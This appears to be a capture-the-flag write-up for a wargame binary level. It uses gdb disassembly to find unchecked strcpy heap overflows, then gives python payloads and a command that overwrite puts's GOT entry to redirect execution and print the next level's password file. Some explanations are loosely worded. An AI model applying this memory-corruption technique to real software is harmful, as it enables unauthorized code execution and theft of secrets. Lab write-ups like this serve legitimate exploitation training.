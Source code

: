 # Level 7

## First clue
- once logged in as level7 we find again an executable  owned by `level8` 
- we try to execute it without arguments and we get a segfault
- if we write one or more alpha and numeric argiments, we get back `~~`

## Inspect with gdb
- `(gdb) info function` reveals main and m functions, but also a system call, malloc, strcpy, time, puts and printf. 
```
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini


```
## Main
```
    0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret   


```
Disassemblying main we find out that:
- The program takes 2 arguments.
- It opens a file using the fopen function.
- The file being opened is identified as "/home/user/level8/.pass".
- The source address for copying is obtained from the second argument (0x18(%esp)).
- The destination address for copying is obtained from the first argument (0x1c(%esp)).
- The first strcpy call copies the content from the second argument (argv[2]) to the buffer pointed to by the first argument (buf).
- The file descriptor returned by fopen is stored on the stack at DWORD PTR [esp+0x8].
- The size of the buffer to read from the file is set to 0x44 (68 in decimal), and this value is also stored on the stack at DWORD PTR [esp+0x4].
- The address 0x8049960 is moved onto the stack, indicating the destination buffer where the content of the file will be stored.
- fgets is then called to read a line from the file. It reads up to 0x44 characters from the file and stores them in the buffer pointed to by 0x8049960.
- Finally, puts is called to print out the content of the buffer (0x8049960).

## Function m

- it's not called anywhere but it handle the same variable located at 0x8049960 that puts print out in main function.
- if we analyze its content we discover that is a global variable called "c":
```
(gdb) x/s 0x8049960
0x8049960 <c>:	 ""
```
- function m pass this variable to printf:
```
  0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret 
```

## The vulnerability and how to exploit it

- Buffer Overflow: the strcpy calls do not perform bound checking (check if destination buffer is shorter than source string)

How to exploit it: 
- Overwrite Return Address:  we can overwrite the return address of the puts function with the address of the m function. This would cause the program to execute the m function before the main function returns.
Since the main function take 2 args and the second is copied into the buffer pointed to by the first argument, if we pass the puts function address pointer (the one present in GOT) as first arg and the m function address as second arg, we overwrite the return address of the puts function with the address of the m function, hijacking the control flow of the program. This allows us to redirect the program's execution to the m function, which contains the code to print out the c variable, that point to the .pass file we want to cat. 

## Exploit
- to find the offset of the strcpy buffer we run the program in gdb passing as argument a long string made of set of 4 char (in 32 bit architecture alignement memory addresses are divisible by 4) of the alphabet, lower and uppercase:
```
(gdb) run "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
```
- we get `Program received signal SIGSEGV, Segmentation fault.
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
`
- that means that EIP was not overwritten, but since when a buffer overflow occurs, the extra characters from the input overwrite adjacent memory locations, including the contents of CPU registers such as eax and edx, we check eax and edx and we find "46464646":
```
(gdb) i register
eax            0x46464646	1179010630
ecx            0x0	0
edx            0x46464646	1179010630
```
- 46 is the ASCII for "F" at position 21, so the end of the buffer is at position 20 => `echo "AAAABBBBCCCCDDDDEEEEF" | grep -o .  |  wc -l`
- we store in /tmp/puts 20 letters + the address of puts function (reversed for little endian) and pass /tmp/exploit as argument to ./level7
- the address of puts:
```
(gdb)$ info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts@plt

(gdb)$ x/i 0x08048400
0x8048400 <puts@plt>:	jmp    DWORD PTR ds:0x8049928
```
- `python -c 'print "a"*20+"\x28\x99\x04\x08"' > /tmp/puts`
- we store in /tmp/m the address of m function as it appears in info function (reversed for little endian): `080484f4`
- `python -c 'print "\xf4\x84\x04\x08"' > /tmp/m`
- `./level7 $(cat /tmp/puts) $(cat /tmp/m)`
- we get the flag